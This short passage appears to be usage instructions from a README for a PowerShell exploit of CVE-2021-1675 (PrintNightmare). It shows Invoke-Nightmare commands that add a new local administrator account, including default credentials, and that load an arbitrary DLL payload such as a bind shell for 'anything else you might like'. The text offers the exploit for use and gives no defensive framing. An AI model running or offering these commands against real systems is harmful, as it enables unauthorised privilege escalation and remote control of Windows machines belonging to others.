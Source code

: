 ## Add a new user to the local administrators group by default:
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 


## Supply a custom DLL payload, to do anything else you might like.
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
